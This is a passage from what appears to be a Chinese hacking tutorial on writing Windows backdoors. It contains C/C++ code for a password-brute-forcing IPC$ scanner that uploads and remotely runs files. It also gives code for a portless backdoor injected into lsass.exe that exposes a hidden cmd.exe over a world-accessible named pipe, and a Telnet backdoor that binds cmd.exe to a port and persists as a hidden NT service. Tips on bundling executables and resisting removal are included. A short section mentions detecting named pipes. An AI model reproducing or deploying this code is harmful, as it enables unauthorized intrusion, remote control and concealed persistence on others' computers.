TStrings *uring=new TStringList();//这里可以添加密码进来进行穷举
AnsiString copyfn=""+getfuncip+"\\admin$\\system32"+namefile;//要复制的文件的全路径
for(int i=0;i<sting->Count;i++)//用户循环
{
	for(int j=0;j<uring->Count;j++)//密码循环
	{
		DWORD ret=WNetAddConnection2(&nr,
		uring->Strings[j].c_str(),
		sting->Strings[i].c_str(),0);
		//还是上面的函数，只不过这里的用户名和密码换了
		if(ret==ERROR_SUCCESS)
		{
			//到这里说明用户密码正确，你可以发信息给操作者，
			//然后开始上传文件，其实文中很多地方可以发信息给操作者，
			//读者自己添加，下面开始传文件上去
			HANDLE rFile=CreateFile(Form1->Edit14->Text.c_str(),//本地文件
			GENERIC_READ,//读
			NULL,NULL,
			OPEN_EXISTING,
			NULL,NULL);
			HANDLE wFile=CreateFile(copyfn.c_str(),//远程文件
			GENERIC_ALL,FILE_SHARE_READ|
			FILE_SHARE_WRITE,//写
			NULL,
			CREATE_ALWAYS,
			FILE_ATTRIBUTE_NORMAL,
			NULL);
			//上面的两个函数一个是读本地文件地址，一个是写远程文件地址
			if(wFile==INVALID_HANDLE_VALUE||
				rFile==INVALID_HANDLE_VALUE)
			{//连接文件出错，善后}
			//以下开始传输文件
			char fileBuff[1024];//缓冲区
			unsigned long readnum=0,writenum=0;
			if(!ReadFile(rFile,fileBuff,1023,&readnum,NULL))
			{//读文件出错，处理}
			while(readnum)
			{
				if(!WriteFile(wFile,fileBuff,readnum,&writenum,NULL))
				{//写文件出错，处理}
				if(readnum!=writenum)
				{//没有完全写入，处理}
				if(!ReadFile(rFile,fileBuff,1023,&readnum,NULL))
				{//读文件出错，处理}
			}
			CloseHandle(wFile);//关闭句柄
			CloseHandle(rFile);
			//如果运行到这里，说明已经传输，下面可以运行了.
			//选择简单的运行方式就是用 NetScheduleJobAdd 函数，下面先获取时间:
			PTIME_OF_DAY_INFO pBuf=NULL;
			Int hour,mins,zone;
			NET_API_STATUS nStatus=NetRemoteTOD(IP,(PBYTE*)&pBuf);
			//获取时间
if(nStatus==NERR_Success)
{
if(pBuf!=NULL)
{
hour=pBuf->tod_hours;
mins=pBuf->tod_mins;
zone=(pBuf->tod_timezone/(-60));
}
else
{// 获取时间出错，处理}
}

wchar_t server[256], cmd[1024];
AT_INFO at;
DWORD rc, id;
mbstowcs(server, getfuncip.c_str(),lenof(server));//ip
mbstowcs( cmd, filename.c_str(), lenof( cmd ) );//程序名字
memset( &at, '\0', sizeof at );//清零
at.JobTime=(hour*3600+ mins*60)*1000+60000;//时间
at.DaysOfMonth=0;
at.DaysOfWeek=0;
at.Flags=0;
at.Command = &cmd[0];
rc = NetScheduleJobAdd( server, (byte *)&at, &id );//运行
}//endif
}//end 密码循环
}//end 用户循环
```

## 补充：

这样，基本的框架都已经出来了，大家修改一下，就可以写出自己的IPC扫描器了。代码中的注释很详细，但这里还是要罗嗦几句，也就是几个需要注意的地方：

- 1. 程序要用线程的话，必定是并发操作，所以要设定好变量，不要发生冲突了。
2. 程序写的时候，尽量去掉不必要的错误处理，适当地设置缓冲区，这样可以很有效地加快速度。
3. 上述程序还不完善，也就是不健壮，一些地方还需要修改，可不要直接拷贝哦。
4. 本节只介绍了获取用户名和密码、建立连接、上传文件、运行等几个示例。其实，建立了空连接还可以做很多事情，具体的，可以看看TOo2y的那篇文章（http://www.xfocus.net/article_view.php?id=497），里面写的很详细，大家有空记得去看看。

## 第4章 轻松编写后门程序

### 4.1 三无后门轻松实现

何谓三无后门——即无进程、无DLL、无端口。无进程采用CreateRemoteThread技术；无DLL采用代码动态加载到目标进程内存空间技术；无端口采用命名管道技术。这些并没有什么新鲜的东西，网上已经有不少关于这些技术的资料。有时候看别人的代码看似懂了，其实不然，等到自己动手写起类似功能的代码来，才会发现问题多多，起码我是这样的人，这也是我在很多人已经发布过类似功能代码的情况下，还去自己动手重新实现一遍的原因。在此过程中，我大量参考了西祠(www.xici.net)的shotgun、nongmin.cn、antghazi、bingle发布的代码、资料，对他们的共享和无私奉献精神致以崇高的敬意。

下面我们切入正题，先来看看用命名管道实现无端口后门的核心过程。

- (1) 调用CreateNamedPipe API创建命名管道句柄。

```
HANDLE=hPipe=CreateNamedPipe(Pipe_Name,
PIPE_ACCESS_DUPLEX,
PIPE_TYPE_BYTE | PIPE_READMODE_BY_TE|
PIPE_WAIT,
1, 0, 0, 5000,&sa);
```

第一个参数是命名管道名称，格式\\.\pipe\AnyName。第二个参数是命名管道的打开模式，PIPE_ACCESS_DUPLEX表示此管道是双向式管道，服务器和客户机进程都能在管道上读写数据。第三个参数是命名管道的读写模式（以上标志集合表示数据以字节流的形式读写管道，并且允许锁定模式）。第四个参数指定一个命名管道最多可创建多少个实例或管道句柄。所谓管道的实例，其实就是从本地或者远程客户机应用到创建那个命名管道服务器应用程序的一个连接。特别要注意的是最后一个参数，这个参数的作用是为命名管道指定一个安全描述符。将此参数设为NULL的话，命名管道便会得到一个默认的安全描述符。默认的安全描述符允许命名管道拥有与创建它的进程相同的安全限制以及访问控制。

现在，我简单介绍一下客户端连接远程服务器的命名管道的过程。因为任何进程连接命名管道的时候，都要先经过权限检查，所以，当连接远程服务器的命名管道的时候，需要先用任何一个可用账号(如guest，但空连接不行)与远程服务器建立IPC连接，然后服务器端会把此账号与创建此命名管道时设定的安全描述符进行权限检查，权限检查通过后，才可以使用此命名管道来进行数据传输。更多的关于命名管道的资料请参考《Windows网络编程技术》的前几章。

显然，创建命名管道的时候采用默认的安全描述符并不是我们所期望的，因为后门程序通常都是以Administrator或者更高的权限的身份来运行，而我们去连接这个命名管道的时候，通常都希望以很低权限的账号去连接，通过命名管道的权限检查后，获得最高权限(创建命名管道的身份)。所以，我们需要给此命名管道的安全描述符分配一个空的授权访问控制列表(DACL)，这样，所有用户都可以访问此命名管道了。相关代码如下：

```
c
SECURITY_ATTRIBUTES sa;
PSECURITY_DESCRIPTOR sd;
InitializeSecurityDescriptor( &sd, SECURITY_
DESCRIPTOR_REVISION) );
SetSecurityDescriptorDacl( &sd, TRUE, NULL,
FALSE);
sa.nLength = sizeof(SECURITY_ATTRIBUTES);
sa.lpSecurityDescriptor = &sd;
sa.bInheritHandle = TRUE;
```

(2) 调用ConnectNamedPipe监听客户连接请求。

```
c
ConnectNamedPipe(hPipe,NULL);
```

(3) 客户连接后，创建cmd.exe进程，利用匿名管道来操作此进程的输入输出。

```
c
HANDLE hR1, hW1, hR2, hW2;
// 创建匿名管道
CreatePipe(&hR1, &hW1, &sa, 0);
CreatePipe(&hR2, &hW2, &sa, 0);
// 设置cmd.exe 进程的启动信息
STARTUPINFO si;
PROCESS_INFORMATION pi;
ZeroMemory(&si, sizeof(si));
//cmd.exe 输入输出都重定向到管道
si.hStdInput = hR2;
si.hStdOutput = si.hStdError = hW1;
// 隐藏cmd.exe 的窗口
si.wShowWindow = SW_HIDE;
si.dwFlags = STARTF_USESHOWWINDOW | STA
RTF_USESTDHANDLES;
CreateProcess(NULL, "cmd.exe /Q", NULL ,NULL , 1
, 0, NULL, NULL, &si, &pi);
```

(4) 这时候程序的流程是：
cmd.exe的输出定向到hW1 ==> 然后就可以从hR1读取 ==> 写hPipe(即发送给client端)
从hPipe读(即接收client发送的数据) ==> 写hW2 ==> 然后cmd.exe就从hR1得到了输入
代码如下：

```
c
DWORD dwBytes;
Char szBuff[5120]={0};
While(1)
{
// 检测cmd.exe 有无数据输出，以免造成 ReadFile
死锁
PeekNamedPipe(hR1, szBuffer, sizeof(szBuffer),
&dwBytes, 0, 0);
If(dwBytes)
{
//读取cmd.exe进程输出
ReadFile(hR1, szBuffer, dwBytes, &dwBytes,
NULL);
//发送给client
WriteFile(hPipe, szBuffer, strlen(szBuffer),
&dwBytes, NULL);
Memset(szBuff, 0, sizeof(szBuff));
}
//检测client有无数据发送过来，以免造成
ReadFile死锁
PeekNamedPipe(hPipe, szBuffer, sizeof(szBuffer),
&dwBytes, 0, 0);
If(dwBytes)
{
//读取client输入
ReadFile(hPipe, szBuffer, dwBytes, &dwBytes,
NULL);
//判断client是否发送exit命令
if(_strcmpl(szBuff, "exit") { TerminateProcess(pi.
hProcess, 0); break;}
//别忘了加上回车符号再发送给cmd.exe
strcat(szBuff, "\x0a");
WriteFile(hW2, szBuffer, strlen(szBuffer),
&dwBytes, NULL);
Memset(szBuff, 0, sizeof(szBuff));
}
}//end of while
```

(5)程序退出，释放资源，不再罗嗦。

好了，以上就是基于命名管道的后门的核心代码了。

所谓无进程，就是把我们的代码加载到别的进程空间里面去，这通过调用API CreateRemoteThread可以实现，比较简单的做法是把LoadLibrary函数的地址作为线程的开始地址，然后把我们的backdoor.dll作为线程的参数。这样一来，远程线程创建成功后，它就会把我们的backdoor.dll加载到目标进程的空间，这便实现了无进程。利用这种方法，我们的程序复杂度便下降许多，无需专门编写远程线程代码，只需要一个DLL文件，以后需要修改后门的功能等维护这个DLL文件即可。但是这种方法也带来了不足之处，首先是在硬盘上需要留下一个DLL文件，而且我们被加载的DLL容易被查出来。关于上述技术更详细的信息请参见《Windows核心编程》和shotgun的《揭开木马的神秘面纱(四)》。

所以，另一种比较好的办法就是不让线程Load我们的DLL，而是把线程代码直接写入到目标进程的内存空间，然后运行它。但是，此时线程代码编写的时候，就不能像平时一样直接在代码中调用API了，而是需要先动态确定此API在目标进程的地址，然后再CALL这个地址。

接下来我们就来看看实现的具体过程。

(1)首先，我们需要准备两个函数Enable DebugPriv和GetPidByName。

从名字就可以知道一个是用来给自身进程添加debug权限的函数（这样才有足够权限对别的进程进行操作），一个是通过进程名来获取相应的进程ID的函数（进程ID供OpenProcess打开别的进程之用）。前者可以通过调用OpenProcessToken、LookupPrivilegeValue、AdjustTokenPrivileges3个API来实现，后者可以通过调用ToolHelp或PSAPI相应API来实现。具体实现过程这里不再罗嗦。/接着还要准备线程的参数结构，如下：

```
typedef FARPROC (__stdcall *PGetProcAddress)
(HMODULE, LPCSTR);
typedef HINSTANCE 1(__stdcall *PGetModule
HandleA)(LPCTSTR);
struct PARAMETER
{
// 通过以下两个函数的来取得其他 API 的地址，我们假设包含我们所需要的 API 的 //DLL 目标进程已
经加载，不然我们要用 LoadLibrary 来自己加载：
PGetProcAddress xGetProcAddress;
PGetModuleHandleA xGetModuleHandleA;
char szEndChar[4]; // 回车字符
char szPassword[12]; // 验证密码，如果需要的话
int iPassLen; // 密码长度
char szInfo[12]; // 连接上去的时候回显给 client 的信息，如 "Password:"
int iInfoLen; // 信息长度
char szDllKernel32[24]; //DLL 名称
char szDllAdvapi32[24]; // 同上
char szBuffer[BuffSize];
char szPipeName[24]; // 命名管道名称
char szCmdLine[12]; // 创建的进程名 "cmd.exe /Q"
char szKillAll[12]; // 让线程退出的标志
char szExit[12]; // client 退出标志
// 以下是线程所用到的 API 的名称
char szInitializeSecurityDescriptor[48]; //adv
char szSetSecurityDescriptorDacl[36]; //adv
char szCreateNamedPipeA[32]; //k
char szCreatePipe[24]; //k
char szConnectNamedPipe[32]; //k
char szCreateProcessA[32]; //k
char szPeekNamedPipe[32]; //k
char szReadFile[12]; //k
char szWriteFile[12]; //k
char szCloseHandle[24]; //k
char szSleep[12]; //k
char szTerminateProcess[32]; //k
char szDisconnectNamedPipe[32]; //k
};
```

(2) 打开目标进程。

```
// 提升权限
EnableDebugPriv();
// 打开目标进程，默认是 lsass.exe
HANDLE hTarget = OpenProcess( PROCESS_ALL
_ACCESS,
FALSE , GetPidByName("lsass.exe"));
```

(3) 确定线程代码长度。

假如我们的函数排列是这样：
```

## 第4章 轻松编写后门程序

```
DWORD BackDoorThread(PARAMETER *lpPara)
{......}
void DummyFunc() {return;}
```

我们便可以这样来得到线程代码的长度：

```
DWORD dwFuncSize = (DWORD)DummyFunc -
(DWORD)BackDoorThread;
```

在我测试的时候，当编译为debug版本的时候，此数值并不正确，为负数或其他；编译为Release版本的时候没问题，不知道是为什么。请知道的兄弟不吝赐教。

(4) 将线程代码写入到目标进程内存空间（线程代码的编写稍后讨论）。

```
// 在目标进程空间申请内存
LPVOID lpThread = VirtualAllocEx(hTarget, 0, dwFuncSize,
MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE );
// 写入线程代码到申请的内存
WriteProcessMemory( hTarget, lpThread, &BackDoorThread, dwFuncSize, 0 );
```

(5) 填充线程参数。

```
PARAMETER Para;
//加载kernel32.dll
HMODULE hKernel32 = LoadLibrary("kernel32.dll");
memset(&Para, 0, sizeof(Para));
// 取得两个重要的函数的地址
Para.xGetProcAddress =(PGetProcAddress) GetProcAddress(hKernel32, "GetProcAddress");
Para.xGetModuleHandleA = (PGetModuleHandleA) GetProcAddress(hKernel32, "GetModuleHandleA");
// 填充其他信息
strcpy(Para.szInfo,"Password:");
Para.iInfoLen=strlen(Para.szInfo);
strcpy(Para.szPassword, "ey4s");
Para.iPassLen=strlen(Para.szPassword);
strcat(Para.szCmdLine, "cmd.exe /Q");
// 呵呵，命名管道名称取这样的太显眼了吧？
strcat(Para.szPipeName, "\\\\.\\pipe\\backdoor");
strcat(Para.szEndChar,"\n");
strcat(Para.szCloseHandle,"CloseHandle");
......以下省略
```

(6) 把线程参数写入到目标进程内存空间。

```
// 为线程参数在目标进程空间申请内存
LPVOID p = (PARAMETER *) VirtualAllocEx(hTarget, 0, sizeof(PARAMETER),
MEM_COMMIT, PAGE_READWRITE );
//写入
WriteProcessMemory( hTarget, p, &Para, sizeof(Para), 0);
```

(7) 在目标进程创建线程。

```
DWORD dwThreadID;
HANDLE hRT = CreateRemoteThread(hTarget, NULL, 0,
(DWORD (__stdcall *)(void *))lpThread, p, 0, &dwThreadID);
```

(8) 释放资源。

注意：千万不能调用VirtualFreeEx来释放刚才在目标进程空间申请的内存空间，否则刚才创建的线程就Game Over了，而且可能会导致目标进程也一起Game Over。

(9) 最后一部分，我们来看线程代码怎么写。

首先要这样来定义线程所需用到API：

```
typedef VOID (__stdcall *PSleep)(DWORD);
PSleep xSleep;
```

然后加载包含我们所需API的DLL：

```
HMODULE hmDllKernel32 = lpPara->xGetModuleHandleA(lpPara->szDllKernel32);
HMODULE hmDllAdvapi32 = lpPara->xGetModuleHandleA(lpPara->szDllAdvapi32);
......略
```

取得我们所需的API在目标进程中的确切地址。

```
xSleep=(PSleep)lpPara->xGetProcAddress(hmDllKernel32, lpPara->szSleep);
......略
```

接下来的部分，跟本文前面所述的命名管道的核心代码差不多，惟一不同的是要用xSleep代替Sleep，因为此时xSleep中存放的是目标进程中Sleep这个API的地址，这样线程代码运行才不会出错。

另外还有点我不明白的就是，为什么在线程代码中，调用类似_strcmpi的函数运行就会出错，而调用memset、strcat、ZeroMemory就可以呢？？请各位赐教。

其实我们也可以把所有的API的地址都先取出来，保存在线程参数中，传递过去，这样，在线程代码中就不用用GetProcAddress来获取API的地址了，在线程中就直接可以用了。因为我们加载远程线程的程序也需要在放置后门的机器上运行一下，这样，所有的API的地址都是固定的，不需要在线程代码中动态取得，这与ShellCode不同。不过，这样的话，要保证目标进程已经加载了包含API的DLL，不然运行就会出错了。

接着简单说一下此后门客户端的实现过程。

(1) 调用WaitNamedPipe等候前面所创建的命名管道可用。

(2) 调用CreateFile建立与命名管道的连接。

(3) 创建两个线程，一个读，一个写。

(4) 调用CloseHandle关闭打开的命名管道的会话。

读写进程的代码分别如下：

```
DWORD WINAPI WriteData(LPVOID lp)
{
    char szBuffer[5120];
    DWORD dwBytes;
    while(1){
        Sleep(1);
        memset(szBuffer, 0, sizeof(szBuffer));
        // 取得用户输入
        gets(szBuffer);
        // 发送
        if(WriteFile(hPipe, szBuffer, strlen(szBuffer), &dwBytes, NULL) == 0)
        {
            printf("\nWriteFile Failed:%d", GetLastError()); break;
        }
        // 判断是否退出
        if((_stricmp(szBuffer, "exit") == 0) || (_stricmp(szBuffer, "killall") == 0)) break;
    }//while
    return 0;
}
DWORD WINAPI ReadData(LPVOID lp)
{
    char szBuffer[5120];
    DWORD dwBytes;
    while(1){
        // 判断是否有数据可读
        if(!PeekNamedPipe(hPipe, szBuffer, BuffSize, &dwBytes, 0, 0)) break;
        if(dwBytes)
        {
            // 读取数据
            if(ReadFile(hPipe, szBuffer, dwBytes, &dwBytes, NULL) == 0)
            { printf("\nReadFile Failed:%d", GetLastError()); break; }
            printf("%s", szBuffer);
        }
        Sleep(1);
    }//while
    return 0;
}
```

OK! 现在我们的程序运行后，马上就退出了，但是我们的线程代码已经寄存在目标进程的空间里面运行了。这样，我们的后门就没有进程，目标进程没有加载DLL，也没有端口（这后门只在内存中，重启后就没有了）。

那么，这样的后门是不是没有办法检测到呢？非也。我们可以自己动手编程来列出系统中所有的命名管道。我们知道，命名管道也是一种句柄(Handle)，句柄类型为0x1A，即10进制的26，这种类型句柄的名称为FILE。为什么句柄类型名称是FILE而不是PIPE呢？因为命名管道句柄也是文件句柄的一种。另外，SOCKET句柄也是文件句柄的一种，类型也为0x1A。

了解以上信息后，我们就可以调用Ntdll.dll中的Native API 来取得系统中所有的句柄，此API是ZwQuerySystemInformation，然后把类型为0x1A的句柄挑出来，调用DuplicateHandle复制句柄，再调用API GetFileType来判断是不是命名管道句柄，然后就可以调用Ntdll.dll中的Native API ZwQueryObject来取得这个句柄的名称了。不过，这种方法好像不太好，因为要复制句柄，对某些文件句柄(如PIPE，SOCKET)复制进行操作会出问题。关于这种方法的详细信息请参见shotgun的《Win2K下关联进程/端口之代码初步分析》。

还有一种方法是不用复制句柄，直接调用ZwQueryObject来取得所有句柄的信息。但我这里测试，只能取得类型名称为“PORT”的所有句柄，其他的死活也取不出来，不知道哪里出问题了，唉，郁闷。关于这些Native API的介绍和使用例程请参见《Windows NT/2000 本机 API 参考手册》。

后来经过在网上的一番查找，发现有种很简单的方法可以轻易列举出系统所有的命名管道，是通过调用Ntdll.dll中的NtQueryDirectoryFile来实现的，可执行程序和源代码请从http://www.sysinternals.com/files/pipelist.zip下载。另外，同一个地方出品的Process Explorer也是个非常好用的工具，可以查看所有进程的详细信息，当然包括了每个进程中的HANDLE，其中当然也有命名管道了。目前最新版本是5.23，请从http://www.sysinternals.com/ntw2k/freeware/procexp.shtml下载。

虽然系统中所有的命名管道都能够列举出来，但是当你看到SYSTEM进程中有个命名管道名称为 \Device\NamedPipe\WMIEP，你能马上判断出来这是系统本来就有的，还是一个后门呢？

参考资料：

- 1. 《Windows 网络编程技术》(Anthony Jones & Jim Ohlund)
- 2. 《windows 核心编程》(Jeffer Richter)
- 3. 揭开木马的神秘面纱(四)(shotgun) http://shotgun.patching.net/trojan4.htm
- 4. Win2K下关联进程/端口之代码初步分析(shotgun) http://www.xici.net/board/doc.asp?id=10803565&sub=10
- 5. PE可执行文件的镶入式程序的编写方法及示例(nongmin.cn) http://www.xici.net/board/doc.asp?id=10881033&sub=3
- 6. 再论WinNT & Win2K下实现进程的完全隐藏(antghazi & bingle) http://www.xici.net/board/doc.asp?id=11823834&sub=5
- 7. 《Windows NT/2000 本机 API 参考手册》(Gary Nebbett)

再次对以上各位的共享、无私奉献精神致敬！以上所述程序完整代码以及本文档请从http://www.ey4s.org/pipe.zip下载，错误以及不足之处、意见和建议，请来信指教：ey4s@21cn.com。

## 4.2 写个简单的Telnet后门软件

Telnet后门非常好用的地方就在于它可以直接捆绑Dos，让使用者可以很方便地使用Dos的所有功能，小巧的体积加上Telnet常用的服务启动方式，以及作者加入的相当强度的功能，不得不说是一种很好用的软件。我们就先来介绍一下Telnet的工作过程以及它的两个重要组成功能模块——捆绑Dos控制台和时下最流行的启动方式——NT服务：

## 一、Telnet后门的实现-连接

Telnet也是基于TCP/IP连接程序，程序都是用Windows Sockets规范来写的，下面给出了一段通用的代码，我们先来介绍一下连接的组成：

```
WORD info;WSADATA data;//定义要用的变量
int sock, msock, error;
struct sockaddr_in server;
info = MAKEWORD(2, 0);//确定Socket的版本
error = WSAStartup(info, &data);//此函数用来进行初始化，设置版本，
//分配资源等的工作
if(error != 0)
return;
sock = socket(AF_INET, SOCK_STREAM, 0);//建立连接，
//参数一是确定类型，AF_INET，Internet类型
//SOCK_STREAM是流模式套接字
//0表示自动选择合适的协议
if(sock==SOCKET_ERROR)
return;
server.sin_family = AF_INET;
server.sin_port = htons(1000);//端口
server.sin_addr.S_un.S_addr = INADDR_ANY;//接收任何地址的信息
if(bind(sock, (const struct sockaddr *)&server, sizeof(server))==SOCKET_ERROR)
return;//把上面的server配置完成后，
//就用这个函数来在网络上标识出来
if(listen(sock,5)==SOCKET_ERROR)//监听最大5个队列
return;
while(1)//用死循环来不停的接收连接
{
    msock=accept(sock,(struct sockaddr*)0,(int*)0);//有连接到来了
    if(msock==SOCKET_ERROR)
    return;
    //已经成功连接
}
```

一般的TCP软件都是这样开始的，Telnet后门也不例外。到了这里，用户就可以连接这台计算机了。Telnet后门通常要用线程与用户建立连接，如果有一个用户发出连接请求就开一个线程，这样便不至于会出现非法用户堵塞路口使得其他的用户进不去的情况，所以线程就要从这里开始了。下面就要调用线程启动函数，具体创建的线程的代码后面介绍（上面的代码成功连接处就可以开始加入线程，或者再加上身份验证等等）。

## 二、Telnet后门-管道

Telnet后门捆绑CMD利用了管道技术。管道分为匿名和命名管道，我们要建立的是匿名管道，并且是两个匿名管道，一个专门负责把Dos的输出发回控制者手中，另外一个专门负责提供接收控制者发出的命令，并将命令请求返回给Dos。下面举个简单的例子说明一下：

```
HANDLE Rpipe, Wpipe, Wfile, Rfile;//四个读写标识句柄
STARTUPINFO starinfo;//结构
GetStartupInfo(&starinfo);//设置启动信息到结构
starinfo.dwFlags=STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
starinfo.hStdInput=Rpipe;//读入句柄，下面用
starinfo.hStdError=starinfo.hStdOutput=Wpipe;//输出句柄，下面用
starinfo.wShowWindow=SW_HIDE;
PROCESS_INFORMATION procinfo;
CreateProcess(systempath, NULL, NULL, NULL,
TRUE, 0, NULL, NULL,
&starinfo, &procinfo);
//上面创建Dos进程，systempath就是CMD文件的全路径
SECURITY_ATTRIBUTES pipew;
pipew.nLength=sizeof(SECURITY_ATTRIBUTES);
pipew.lpSecurityDescriptor=NULL;
pipew.bInheritHandle=TRUE;
CreatePipe(&Rpipe, &Wfile, &pipew, 0);
//上面创建一个写管道，向Dos写信息，注意这里的Rpipe和Wfile
char buf[1024];
int nothing;
while(1)
{
Sleep(100);//里面可以加上适当的延时
int howlong=recv(msock, buf, 1024, 0);//接收信息
send(msock, buf, howlong, 0);//这里可以决定要不要回显
WriteFile(Wfile, buf, strlen(buf), &nothing, NULL);//写入管道
ZeroMemory(buf,1024);
}
```

到这里，写管道就建立完成了，读管道的建立过程就要再开一个线程，实现同步操作，下面是读管道的程序，其实和写管道差不多，就不解释了：

```
SECURITY_ATTRIBUTES piper;
piper.nLength=sizeof(SECURITY_ATTRIBUTES);
piper.lpSecurityDescriptor=NULL;
piper.bInheritHandle=TRUE;
CreatePipe(&Rfile, &Wpipe, &piper, 0);
char buf[50000];
int howlong;
while(1)
{
ReadFile(Rfile, buf, 50000, &howlong, NULL);//读dos的输出信息
send(msock, buf, howlong, 0);//发送回去
}
```

这样，一个简单的Telnet后门程序就算完成了，在上面代码的基础上加上自己的创意，应该不难写出一个好的后门来。OK!，废话少说，转入Telnet的另外一张王牌——NT服务启动方式。

## 三、Telnet后门-NT服务启动

Telnet后门可以说是非法软件，笔者觉得用加载注册表的方式启动容易使程序暴露，一个稍微有点

## 第4章 轻松编写后门程序

Windows 操作基础的人便可以很快地排除程序的驻留（杀进程，删注册表，删除文件）。下面，介绍一种较好的启动方法：注册为系统服务，这种方法有如下特点：随系统运行启动，一般的手工方式不能删除，隐蔽性好。但是它只适用于 NT 内核的系统。

在主函数里就可以直接添加如下代码：

```
SERVICE_TABLE_ENTRY beginser[2]; //两个结构
beginser[0].lpServiceName=你自己的服务名字;
beginser[0].lpServiceProc=StartMain; //服务函数名
beginser[1].lpServiceName=NULL;
beginser[1].lpServiceProc=NULL;
StartServiceCtrlDispatcher(beginser); //开始服务
```

这是调用服务必需的操作，上面定义了 2 个 SERVICE_TABLE_ENTRY，因为最后一个服务要留空，所以你用 1 个服务就要定义 2 个。

下面是 ServiceMain 这个函数的代码（也就是服务的开始）：

```
void WINAPI StartMain(DWORD dwArgc, LPTSTR *lpSzArgv)
{
    RegisterServiceCtrlHandler("BeginServ"); //启动函数（调整状态，详看下面说明）
    ss.dwServiceType=SERVICE_WIN32_OWN_PROCESS|
    SERVICE_INTERACTIVE_PROCESS;
    ss.dwCurrentState=SERVICE_RUNNING; //这里需要频繁的修改。
    //可能的取值有：SERVICE_PAUSED,
    //SERVICE_STOPPED，我想这些不要我说明吧
    ss.dwControlsAccepted=SERVICE_ACCEPT_STOP;
    ss.dwWin32ExitCode=NO_ERROR;
    ss.dwCheckPoint=0;
    ss.dwWaitHint=0;
    SetServiceStatus(ssh, &ss); //设置服务状态
    Sleep(100); //延迟一下
    func2biegin(); //自己的函数
}
```

现在还少一个函数，就是上面的“BeginServ”，其代码如下：

```
Void WINAPI BeginServ(DWORD Opcode) //服务控制程序
{
    switch(Opcode)
    {
    case SERVICE_CONTROL_STOP: //停止服务
    ss.dwServiceType=SERVICE_WIN32_OWN_PROCESS|
    SERVICE_INTERACTIVE_PROCESS;
    //和上面一样，这里不加注释了
    ss.dwCurrentState=SERVICE_STOPPED;
    ss.dwControlsAccepted=SERVICE_ACCEPT_STOP;
    ss.dwWin32ExitCode=NO_ERROR;
    ss.dwCheckPoint=0;
    ss.dwWaitHint=0;
    SetServiceStatus(ssh,&ss);
    break;
    case SERVICE_CONTROL_INTERROGATE:
    SetServiceStatus(ssh,&ss);
    break;
    }//endswitch
}
```

现在就可以让服务运行这个程序了。写了这么多都是为了配合服务方式运行，重点还是我们自己的函数。这里要构成服务还需要有一个程序来帮助它运行，也就是寄生程序。值得注意的是，这个寄生程序在第一次运行完成后就没有作用了，你可以选择删除它，或者作为程序的备份（可以选择以流方式隐藏文件，不会给人看到哦，嘿嘿），我们先来看看它的代码：

```
SC_HANDLE SCM=NULL,SCS=NULL;
SCM=OpenSCManager(NULL,NULL,SC_MANAGER_ALL_ACCESS);
if (SCM!=NULL)
{
SCS=CreateService(SCM,服务名字,服务名字,
SERVICE_ALL_ACCESS,
SERVICE_WIN32_OWN_PROCESS|
SERVICE_INTERACTIVE_PROCESS,
SERVICE_AUTO_START,//自动运行方式
SERVICE_ERROR_IGNORE,
这里是文件全路径名就是上面那个文件的地址,
NULL,NULL,NULL,NULL,NULL);//后面5个参数一般不要写的
if(SCS==NULL)//创建失败，尝试打开服务
{
if(GetLastError()==ERROR_SERVICE_EXISTS)
{
SCS = OpenService(SCM,服务名字,
SERVICE_ALL_ACCESS);//打开服务
if(SCS==NULL)//出错则关闭，退出
{goto exit;}
}
else
{goto exit;}
}
StartService(SCS,0,NULL);//开始服务
exit://退出地址
CloseServiceHandle(SCS);//关闭句柄
CloseServiceHandle(SCM);
}
```

以上就是运行上面的那个程序的寄生体要执行的代码了，其中服务名字要和上面本体的服务名字相对应。这样，就完成了启动工作，不写注册表，干净，用服务来启动，不是老鸟，还一时半会找不到。就算是找到了，手工方式删除不了哦。大家可以看看“控制面板->管理工具->服务”里面，就是你机器的全部服务了，很多，你试试删除一个服务看看，是不是没有删除选项？

## 补充：

写成服务，要成功地安装并执行程序，这大体要 2 个程序。对于只有一个 EXE 的程序来讲，安装就比较考功夫了。不过，索性我们写出 2 个程序，用包裹的方式，这样比较简单。也有很多好处：Server 写起来简单，本体和寄生体大小不同，不容易发现，寄生体可以把事先要做的事情全部做完等等。下面介绍几种可以把两个程序合成为一个 EXE 的方法（很多捆绑软件就是这么写出来的）。当然，我们这里只需量身定做，不用写得那么复杂。

- 1. 先作一个文件头（rc 文件），把需要包裹的程序和这个头文件一起包裹（BCB 中，Bin 目录下面有一个 Brcc32.exe 程序就是用来生成头文件的，Delphi 也有），这样做的好处是捆绑生成的文件很小（基本上就是多了一个头文件的大小），但写起来麻烦了点（相对下面的方法来说不麻烦）。
- 2. 直接把数据添加到自身的尾巴后面，这样做的好处就是写起来简单，释放也快，缺点很明显，对于写捆绑程序来说文件太大。
- 3. 直接把程序化成 2 进制代码，保存在文件的静态缓冲区中（char 类型的全局变量），这种方式虽然不会缩短文件的大小，但是不容易出错，且更简单，只要定义了数组，把文件化成 2 进制数据拷贝进去，就可以了，呵呵。

以上几种方法，大家自己选择，我推荐使用方法 3，因为其比较简单，而方法 1 和 2 就显得有点大材小用了。

## 4.3 最前端的三线程开发揭密

#### 一、前言

中国黑客（worm.runouce）病毒在国内出现以后，各大反病毒公司对其进行了“仔细”的分析后得出一个结论：“中国黑客”发现了全球首创的“三线程”结构。我个人对病毒没什么研究，并且我对 worm.runouce 没有任何的个人看法，不过可以确信的是很多反病毒公司往往在夸大事实，目的只有一个：让更多的用户觉得某某病毒很可怕，让更多的用户相信只有某某公司的杀毒软件才可以彻底将病毒清除掉。其实三线程并没有多高深的技术，现在就让我们一步步揭开三线程程序开发的神秘面纱。

#### 二、三线程程序的开发思路

在操作系统中，进程是存储器、外设等资源的分配单位，同时也是处理器调度的对象。但为了提高进程内的并发性，Windows 系统中引入了线程这个概念（在很多其他操作系统中同样也有线程的概念，由于 2001 年微软停止了 Windows 9x 内核的研发，所以本文只针对 Windows 2000/XP 操作系统），这时系统把线程作为处理器调度的对象，一个进程可以同时拥有多个并发的线程。通常情况下的简单程序就只有一个主线程，它是在进程创建时自动生成的。我们可以将想要执行的代码放在主线程里，然后再生成两个辅助线程，它们的功能就是实现对程序的保护功能，防止程序被用户关闭或删除。在此，我们的可执行文件的进程称为主进程。

